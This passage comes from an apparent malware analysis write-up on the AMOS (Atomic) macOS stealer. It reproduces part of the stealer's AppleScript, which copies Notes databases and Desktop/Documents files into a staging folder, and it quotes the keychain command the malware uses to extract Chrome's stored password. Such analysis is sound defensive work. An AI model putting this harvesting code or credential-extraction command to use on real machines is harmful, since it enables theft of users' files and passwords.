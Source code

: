 ~~~bash
            set notesFiles to {file "NoteStore.sqlite", file "NoteStore.sqlite-shm", file "NoteStore.sqlite-wal"} of notesFolder 
            repeat with aFile in notesFiles 
                set fileSize to size of aFile 
                if (bankSize + fileSize) < 10 * 1024 * 1024 then 
                    try 
                        duplicate aFile to folder destinationFolderPath with replacing 
                        set bankSize to bankSize + fileSize 
                    end try 
                else 
                    exit repeat 
                end if 
            end repeat 

        end try 
        
        set desktopFiles to every file of desktop 
        set documentsFiles to every file of folder "Documents" of (path to home folder) 
        repeat with aFile in (desktopFiles & documentsFiles) 
            set fileExtension to name extension of aFile 
            if fileExtension is in extensionsList then 
                set fileSize to size of aFile 
                if (bankSize + fileSize) < 10 * 1024 * 1024 then 
                    try 
                        duplicate aFile to folder destinationFolderPath with replacing 
                        set bankSize to bankSize + fileSize 
                    end try 
                else 
                    exit repeat 
                end if 
            end if 
        end repeat 
    end try 
end tell'

~~~

It looks like that the execution of the **FileGrabber** osascript was disabled, but the malware is still looking for the **~/fg/** folder when collecting informations. I suppose it was disabled in order to not save files on disk and to not allarm the user with an additional messagebox.


The **ChronosMasiter** function is used to find Chrome passwords in the keychain. It executes the following command by passing it as parameter to the **shellermy** function.

~~~
security 2>&1 > /dev/null find-generic-password -ga 'Chrome' | awk '{print $2}'
~~~

When the command is executed a system messagebox spawns because macOS wants the user to enter the password to access the keychain.

{{< image src="img/2024-03-08-amos-atomic-macos-stealer-analysis/img18.png" caption="Figure 18 - System Information" wrapper="text-center">}}
